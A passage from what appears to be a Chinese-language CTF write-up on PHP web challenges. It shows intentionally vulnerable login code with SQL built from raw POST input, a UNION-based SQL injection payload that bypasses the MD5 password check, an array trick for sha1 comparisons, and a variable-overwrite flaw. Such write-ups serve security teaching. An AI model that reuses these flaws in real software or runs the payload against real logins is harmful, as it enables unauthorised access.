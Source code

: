 

> sha1无法处理数组，因此可构造数组绕过,数组传入结果为NULL





# challenge 6

**源码**

```php
<?php
if($_POST[user] && $_POST[pass]) {
	$conn = mysql_connect("********", "*****", "********");
	mysql_select_db("challenges") or die("Could not select database");
	if ($conn->connect_error) {
		die("Connection failed: " . mysql_error($conn));
}
$user = $_POST[user];
$pass = md5($_POST[pass]);
$sql = "select pwd from interest where uname='$user'";
$query = mysql_query($sql);
if (!$query) {
	printf("Error: %s\n", mysql_error($conn));
	exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pwd"];
  if (($row[pwd]) && (!strcasecmp($pass, $row[pwd]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```



> 联合查询注入漏洞,构造 username=-1'union select"md5(123)"#&pass=123



# challenge 7

**源码**

```php
<?php
include "flag.php";
$_403 = "Access Denied";
$_200 = "Welcome Admin";
if ($_SERVER["REQUEST_METHOD"] != "POST")  # 要为POST
     die("BugsBunnyCTF is here :p...");
if ( !isset($_POST["flag"]) )
    die($_403);
foreach ($_GET as $key => $value)
    $$key = $$value;
foreach ($_POST as $key => $value)
    $$key = $value;
if ( $_POST["flag"] !== $flag )
    die($_403);
echo "This is your flag : ". $flag . "\n";
die($_200);

```